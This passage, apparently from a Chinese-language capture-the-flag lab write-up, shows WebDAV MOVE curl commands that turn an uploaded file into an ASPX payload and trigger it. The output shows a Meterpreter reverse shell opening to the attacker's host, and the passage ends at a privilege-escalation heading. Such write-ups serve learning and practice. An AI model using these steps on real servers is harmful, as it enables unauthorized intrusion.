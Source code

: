 没有问题了。

现在，移动文件并触发它：

```
root@kali# curl -X MOVE -H 'Destination: http://10.10.10.15/met.aspx' http://10.10.10.15/met.txt 
root@kali# curl http://10.10.10.15/met.aspx
```

成功拿到shell。

```
[*] Sending stage (179779 bytes) to 10.10.10.15
[*] Meterpreter session 1 opened (10.10.14.14:443 -> 10.10.10.15:1032) at 2019-03-06 17:05:07 -0500

meterpreter >
```

不使用msf，可以本地直接nc监听。

# 提权

![截图](3489a269708646ef39e9a9024608be5c.png)

## 用本地漏洞利用检查
